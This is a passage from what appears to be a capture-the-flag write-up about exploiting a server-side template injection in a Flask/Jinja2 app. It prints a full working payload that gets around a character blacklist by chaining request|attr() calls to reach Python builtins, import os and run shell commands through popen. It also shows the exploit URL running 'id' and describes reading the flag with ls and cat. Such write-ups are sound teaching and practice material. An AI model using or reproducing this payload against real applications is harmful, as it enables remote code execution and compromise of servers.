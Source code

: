 
And that’s the payload I came with

```html
&#123;%with output=((((request|attr('application'))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;globals&#39;)))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;getitem&#39;)))(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;builtins&#39;))|attr(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;getitem&#39;)))(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;import&#39;)))(&#39;os&#39;)|attr(&#39;popen&#39;)(request|attr(&quot;args&quot;)|attr(&quot;get&quot;)(&#39;cmd&#39;))|attr(&#39;read&#39;)()%&#125;&#123;%print(output)%&#125;&#123;%endwith%&#125;&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=

```

To bypass the filter, I crafted a payload that cleverly navigates around the blacklisted characters

`invalid_chars = ["{{", "}}", ".", "_", "[", "]","\\", "x"]`

I replaced blacklisted characters and patterns with alternatives:

-   `**{{**`  was replaced with  `**{%**`.
-   `**}}**`  was replaced with  `**%}**`.
-   `**.**`  was bypassed by using attribute chaining through the  `request`  object.
-   `**_**`  was avoided by using alternative attribute names and methods.
-   `**[**` **and** `**]**`  were substituted with attribute access via  `attr()`.
-   `**\\**`  and  `**x**`  were sidestepped by constructing the payload in a way that didn't require these characters.

I navigated through the  `request`  attributes to access Python’s  `globals`  and  `builtins`  dictionaries, using the  `import`  function, I imported the  `os`  module and used its  `popen`  method to OS execute commands

— — — — — — — — — — — — — — — — -

And Successfully executed the  `id`  command, confirming root access

```http
http://0.0.0.0:3000/home?token=<>&directory=&#123;%with output=((((request|attr('application'))|attr(request|attr("args")|attr("get")('globals')))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('builtins'))|attr(request|attr("args")|attr("get")('getitem')))(request|attr("args")|attr("get")('import'))('os')|attr('popen')(request|attr("args")|attr("get")('cmd'))|attr('read')()%&#125;&#123;%print(output)%&#125;&#123;%endwith%&#125;&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=id

```


![](https://miro.medium.com/v2/resize:fit:700/1*Xl5B59r9fgJGMBkPuPNcLg.png)

Nice, Root:)

Ran  `ls -lah /`  to list the system files, which revealed the flag's location

![](https://miro.medium.com/v2/resize:fit:695/1*0Kw-zjh-CPKYvW8O7ym5kQ.png)

nice flag is there, lets use  `cat`to read the flag from the file, successfully retrieving it

![](https://miro.medium.com/v2/resize:fit:700/1*TCdBFtrQgv36-ftOkivS8g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*A3zR-rBM2mstqTg5zxvU8w.png)

And That’s it

Bye UwU